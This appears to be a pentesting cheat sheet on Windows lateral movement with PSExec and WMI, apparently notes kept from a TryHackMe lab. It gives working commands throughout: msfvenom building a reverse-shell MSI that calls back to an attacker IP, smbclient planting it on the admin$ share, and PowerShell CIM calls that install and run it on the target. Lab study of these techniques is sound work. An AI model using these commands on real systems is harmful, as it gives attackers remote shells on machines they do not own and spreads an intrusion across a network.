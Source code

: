 ### PSExec
[PSExec download](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec)
Required: 
- Port 445 (or any SMB) open
- Administrator group access
?


### WMI
https://benheater.com/tryhackme-lateral-movement-pivoting/#task-4-moving-laterally-using-wmi
Required:
- Port 135 (RCP)
- Port 5985/5986 (WinRM)
- Administrator group on target

#### Method 1 - with SMB
First, generate the reverse shell:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$ATTACKER_IP LPORT=4444 -f msi -o shell.msi
```
Then, put the shell on the system:
```bash
smbclient -c 'put shell.msi' -U $USERNAME -W WORKGROUP '//IP_ADDRES_OR_HOSTNAME/admin$/' $PASSWORD
```
First, create a `Credential Object`, for authentication (Powershell):
```powershell
$username = 'user'
$password = 'password' | ConvertTo-SecureString -AsPlainText -Force
$credential = [pscredential]::new($username, $password)
```

Create a CIM (WMI Connection) session:
```powershell
$server = 'target-ip / fqdn'
$sessionopt = New-CimSessionOption -Protocol DCOM
$session = New-CimSession -ComputerName $server -Credential $credential -SessionOption $sessionopt -ErrorAction Stop
```
Then, execute the reverse shell:
```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\shell.msi"; Options = ""; AllUsers = $false}
```
